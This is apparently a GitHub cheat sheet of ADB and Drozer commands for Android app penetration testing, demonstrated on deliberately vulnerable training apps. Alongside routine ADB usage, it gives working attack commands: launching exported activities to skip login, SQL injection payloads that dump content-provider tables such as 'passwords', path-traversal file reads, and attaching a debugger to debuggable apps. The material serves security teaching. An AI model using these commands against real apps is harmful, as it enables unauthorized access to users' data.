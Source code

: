 # adb-drozer-cheatsheat
Contains all ADB commands

## Basic commands
Normal user shell access
```
adb shell
```

Root user shell access
```
adb root
adb shell
```

Root  user access from shell
```
adb shell
su
```

Install APKs & SPLIT APKs
```
adb install <apkname>
adb install-multiple <splitapkname1> <splitapkname2> <splitapkname3> <splitapkname4>
```

Uninstall APKs
```
adb uninstall <apkname>
```

Uploading files or folders
```
adb push <sourcepath> <destinationpath>
```

Downloading files or folders
```
adb pull <sourcepath> <destinationpath>
```

Listing installed packages; Here pm means Package manager
```
adb shell pm list packages
```

Getting bask apk path or source apks path
```
adb shell pm path <packagename>
```

Forwarding Ports
```
adb forward tcp:hostport tcp:androidport
adb reverse tcp:androidport tcp:hostport
```


## Activity, Service & Broadcast handling
### Activity
**-n** component name(Pull path to activity). This below commands send Intent to launch activities
```
adb shell am start-activity -n packagename/activityname
```
Example:
```
adb shell am start-activity -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
                        [OR]
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin
```
**DROZER Intent options for Activity, Broadcast, Service**
```
-a is used to specify action example: -a android.intent.action.VIEW
--extra is to specify strings example: --extra key value
--data-uri is to specify datauri example: --data-uri "https://hello?abc=hii"
--component is to specify activity which takes packagename & activity name example: --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity
```

DROZER Activities
```
dz> run app.activity.info -a jakhar.aseem.diva   #listing activities
dz> run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.MainActivity  #starting activities
```


#### Intent options with Activities
Combining Action with Activity -a android.intent.action.VIEW 
```
adb shell am start-activity -a android.intent.action.VIEW -n com.android.insecurebankv2/.PostLogin
```

Sending strings via extra strings with Intent
```
--es key "value" or -e key "value"
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin --es reg_url "https://3kal.medium.com"
```

Sending data via data URI with Intent
```
-d <DATA_URI>
adb shell am start-activity -n com.android.insecurebankv2/.PostLogin -d "https://hello?abc=hii"
```

### Broadcast
Sending strings via Intent with broadcast receivers
```
adb shell am broadcast -n <broadcastname> -a <actionname> -e key value
```
Example:
```
adb shell am broadcast -n com.android.insecurebankv2/.BrReciever -a android.intent.action.ACTION_SEND -e uid appsec
```
DROZER broadcasts
```
dz> run app.broadcast.info -a jakhar.aseem.diva  #listing broadcast
dz> run app.broadcast.start --component jakhar.aseem.diva jakhar.aseem.diva.BroadCast  #starting Broadcast
```

### Services exploit
Sending strings via Intent with services
```
adb shell am startservice -n <servicename> --es key value
```
Example:
```
adb shell am startservice -n com.androgoat/.DataLeakService --es "leak_data" "tr"
```
DROZER services
```
dz> run app.service.info -a jakhar.aseem.diva  #listing services
dz> run app.service.start --component jakhar.aseem.diva jakhar.aseem.diva.TestService  #starting Services
```


## Exploiting Content providers
Content provider to access to database
```
adb shell content query --uri <contentprovideruri>
```
Example:
```
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds
adb shell content query --uri content://com.example.vulnerableapp.provider/pwds --projection "'"
adb shell content query --uri content://com.example.vulnerableapp.provider --projection "' UNION SELECT * FROM sqlite_master WHERE type='table';-- "
```
DROZER contentproviders
```
dz> run app.provider.info -a com.abc.testabc   #list content providers with packagname look for exported & permission NULL
dz> run scanner.provider.finduris -a com.abc.testabc  #scan vulnerable content providers
dz> run scanner.provider.sqltables --uri content://com.abc.testabc.contentprovider/pwds/  #list all tables in vulnerable content provider
dz> run scanner.provider.injection --uri content://com.abc.testabc.contentprovider/pwds/  #list vulnerable content providers
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection "'"  #query for sqlinjection
dz> run app.provider.query --uri content://com.abc.testabc.contentprovider/pwds/ --projection " * FROM passwords;"  #querying database
```

#### Content provider to access files
```
adb shell content read --uri <contentprovideruri>
```
Example:
```
adb shell content read --uri content://com.example.vulnerableapp.provider/../../../../test.txt
```
DROZER
```
dz> run scanner.provider.traversal -a com.abc.testabc   #scan for pathtraversal vulnerable contentprovider
dz> run app.provider.read content://com.example.vulnerableapp.provider/../../../../test.txt   #exploting & reading files
```

#### DROZER ATTACK SURFACE SCAN & MANIFEST READ
```
dz> run app.package.attacksurface jakhar.aseem.diva    #attack surface listing
dz> run app.package.manifest jakhar.aseem.diva     #manifest file listing
```

## Debuggable app connection</br>
Open debuggable app then run below command
```
adb jdwp   #it shows the port to socket of dubuggale app
```
Forward the host tcpport to socketport of debuggable android app
```
adb forward tcp:7777 jdwp:12167
```
Attach jdb to it(jdb by default comes with platform-packages)
```
jdb -attach localhost:7777
```
